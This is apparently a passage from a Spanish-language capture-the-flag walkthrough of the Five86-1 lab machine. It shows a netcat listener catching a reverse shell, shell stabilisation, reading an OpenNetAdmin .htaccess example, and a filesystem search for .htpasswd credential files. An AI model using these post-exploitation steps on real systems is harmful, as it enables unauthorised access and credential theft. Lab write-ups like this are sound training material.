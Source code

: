 ```
                                                                                                               
~/Documents/five86                                                          
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443

www-data@five86-1:/opt/ona/www$ export TERM=xterm SHELL=bash 
```
Ya teniendo la shell mejorada procedo a ver los archivos y existe un .htaccess.example el cual dice algo interesante

```
www-data@five86-1:/opt/ona/www$ cat .htaccess.example 
##########################################
# This is the default .htaccess file for ONA.
[...]
# You will need to create an .htpasswd file that conforms to the standard
# htaccess format, read the man page for htpasswd.  Change the 
# AuthUserFile option below as needed to reference your .htpasswd file.
# Keep in mind that this password is not necassarily the same password
# that a particular user would use to access the web interface.  User
# names, however, do need to be the same in both the .htpasswd and web
# interface.
[...]
##########################################

# You can choose to use the IP filter, password or both for authentication.
<Files dcm.php>

    ###############################
    # This section allows you to filter based on IP client addresses
    ###############################
    Order Deny,Allow
    Deny from all
    #Allow from 10.0.0.0/8
    Allow from 127.0.0.1
    ###############################

    ###############################
    # This section allows you to force a password
    # Change the AuthUserFile path as needed
    ###############################
    #AuthUserFile /opt/ona/www/.htpasswd
    #AuthName "dcm.pl access"
    #AuthType basic
    #Require valid-user
    ###############################
</Files>
```

Basicamente el archivo dice que existe un .htpasswd asi que procedo a buscarlo

```
www-data@five86-1:/opt/ona/www$ find / -name .htpasswd 2>/dev/null
/var/www/.htpasswd
```
